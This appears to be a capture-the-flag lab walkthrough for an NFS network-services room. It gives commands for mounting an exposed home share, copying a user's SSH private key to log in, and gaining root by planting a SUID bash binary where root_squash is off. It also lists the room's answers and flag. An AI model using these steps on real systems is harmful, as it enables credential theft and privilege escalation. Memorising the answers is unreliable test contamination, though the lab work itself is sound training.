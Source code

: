 Network Services 2
##################
:Author: David Boyd
:Date: 2020-11-17

[Task 3] Enumerating NFS
************************

enumeration
	a process which establishes an active connection to the target hosts to
	discover potential attack vectors in the system, and the same can be used
	for further exploitation of the system.

NSF-Common
	a package used in NFS interaction that include programs, such as: lock,
	statd, showmount, nfsstat, gssd, idmapd, and mount.nfs.

.. code-block:: Bash

	# Install NFS-Common pckg
	sudo apt install nfs-common -y

Mounting NFS Shares
===================

Your client's system needs a directory where all the content shared by the host
server in the export folder can be accessed.  You can create this folder
anywhere on your system.  Once you've created this mount point, you can use the
"mount" command to connect the NFS share to the mount point on your machine,
like this:

.. code-block:: Bash

	sudo mount -t nfs IP:share /tmp/mount/ -nolock

+----------+-------------------------------------------------------------+
| Tag      | Function                                                    |
+==========+=============================================================+
| mount    | execute the mount command                                   |
+----------+-------------------------------------------------------------+
| -t nfs   | type of device to mount, then specifying that it's NFS      |
+----------+-------------------------------------------------------------+
| IP:share | The IP Address of the NFS server, and the name of the share |
|          | we wish to mount                                            |
+----------+-------------------------------------------------------------+
| -noloock | Specifies not to use NLM locking                            |
+----------+-------------------------------------------------------------+

Questions
=========

Conduct a thorough port scan scan of your choosing, how many ports are open?
----------------------------------------------------------------------------
:Answer: 7

Which port contains the service we're looking to enumerate?
-----------------------------------------------------------
:Answer: 2049
:Note: 2049: UDP - NFS (Network File SYstem) (Official)

Now, use /usr/sbin/showmount -e [IP] to list the NFS shares, what is the name of the visible share?
---------------------------------------------------------------------------------------------------
:Answer: /home

Walkthrough
^^^^^^^^^^^
:showmount: show mount information for an NFS server
:showmount -e (or --exports): Show the NFS server's export list.

.. code-block:: Bash

	showmount -e $TM

What is the name of the folder inside?
--------------------------------------
:Answer: cappucino

Walkthrough
^^^^^^^^^^^
:WSL: OVPN needs to be initiated through WSL, not Windows.

Time to mount the share to our local machine!

First, use `mkdir /tmp/mount` to create a directory on your machine to mount
the share to. This is in the /tmp directory- so be aware that it will be
removed on restart.

Then, use the mount command we broke down earlier to mount the NFS share to
your local machine. Change directory to where you mounted the share-

.. code-block:: Bash

	# Mount the $TM's folder
	sudo mount -t nfs $TM:/home /tmp/mount/ -nolock

Have a look inside this directory, look at the files. Looks like we're inside a user's home directory...
--------------------------------------------------------------------------------------------------------
:Answer: [No answer needed]

Interesting! Let's do a bit of research now, have a look through the folders.  Which of these folders could contain keys that would give us remote access to the server?
------------------------------------------------------------------------------------------------------------------------------------------------------------------------
:Answer: .ssh

Which of these keys is most useful to us?
-----------------------------------------
:Answer: id_rsa

Can we log into the machine using ssh -i <key-file> <username>@<ip>? (Y/N))
---------------------------------------------------------------------------
:Answer: Y

Walkthrough
^^^^^^^^^^^

Copy this file to a different location your local machine, and change the
permissions to "600" using "chmod 600 [file]".

Assuming we were right about what type of directory this is, we can pretty
easily work out the name of the user this key corresponds to.

.. code-block:: Bash

	mkdir /tmp/bleh && cd /tmp/bleh/
	cp /tmp/mount/cappucino/.ssh/id_rsa /tmp/bleh/id_rsa
	sudo chmod 600 id_rsa
	ssh -i id_rsa cappucino@$TM

[Task 4] Exploiting NFS
***********************

Introduction
============

root_squash
	a NFS shares feature that, when enabled, *prevents anyone connecting to the
	NFS share from having root access* to the NFS volume.  Thus, remote "root"
	users are assigned as "nfsnobody" users when connected.  If root_squash is
	turned off, then remote users can create SUID bit files.

SUID bit set
	file(s) can be run with the permissions of the file(s) owner/group.  --as a
	super-user, we can leverage SUID to get a shell with

Method
------
:files: bash shell executable

1. Upload files to the NFS share
2. Set the permissions of these files
3. Log in through ssh
4. Execute files

The Executable
--------------

Upload a shell that is th esame as the server's (known from nmap scan).

Method Mapped Out
-----------------

1. NFS Access
2. Gain low privilege shell
3. set SUID permissions through NFS (if misconfigured *root squash*)
4. login through SSH
5. execute SUID bit bash executable
6. Root access!

Questions
=========

First, change directory to the mount point on your machine, where the NFS share should still be mounted, and then into the user's home directory.
-------------------------------------------------------------------------------------------------------------------------------------------------
:Answer: [No answer needed]

Download the bash executable to your Downloads directory. Then use "cp ~/Downloads/bash ." to copy the bash executable to the NFS share. The copied bash shell must be owned by a root user, you can set this using "sudo chown root bash"
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
:Answer: [No answer needed]

What letter do we use to set the SUID bit set using chmod?
----------------------------------------------------------

Walkthrough
^^^^^^^^^^^

Now, we're going to add the SUID bit permission to the bash executable we just
copied to the share using "sudo chmod +[permission] bash".

What does the permission set look like? Make sure that it ends with -sr-x.
--------------------------------------------------------------------------
:Answer:

Walkthrough
^^^^^^^^^^^

Let's do a sanity check, let's check the permissions of the "bash" executable
using "ls -la bash".

Now, SSH into the machine as the user. List the directory to make sure the bash executable is there. Now, the moment of truth. Lets run it with "./bash -p".  The -p persists the permissions, so that it can run as root with SUID- as otherwise bash will sometimes drop the permissions.
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
:Answer: [No answer needed]

Great! If all's gone well you should have a shell as root! What's the root flag?
--------------------------------------------------------------------------------
:Answer: THM{nfs_got_pwned}

Walkthrough
^^^^^^^^^^^

**Note:** In order to allow the NFS system to copy the file's permissions, you
must modify the permissions *afer copying file from localhost to mounted
location*.

This walkthrough covers all of **Task 4**.

.. code-block:: Bash

	# Download the server's bash version
	wget https://github.com/polo-sec/writing/blob/master/Security%20Challenge%20Walkthroughs/Networks%202/bash?raw=true
	-O bash

	# Copy from localhost to mounted NFS
	cp ./bash /tmp/mount/cappucino/bash

	# Change ownership
	sudo chown root /tmp/mount/cappucino/bash

	# Set SUID
	sudo chmod +s /tmp/mount/cappucino/bash

	# CTF
	cat /root/root.txt

